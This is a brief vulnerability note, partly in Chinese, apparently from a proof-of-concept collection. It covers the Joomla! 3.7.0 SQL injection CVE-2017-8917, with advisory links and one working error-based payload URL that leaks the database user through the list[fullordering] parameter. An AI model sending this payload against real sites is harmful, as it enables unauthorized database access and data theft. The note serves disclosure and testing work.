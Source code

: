 # Joomla! 3.7.0 SQL注入(CVE-2017-8917)

## Official

https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917

## Affected Version

Joomla! 3.7.0

## PoC

直接访问,爆出数据库用户名：

    http://foo.com/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![poc.png](poc.png)



## References

1. http://blog.nsfocus.net/joomla-3-7-0-sql-injection-vulnerability/
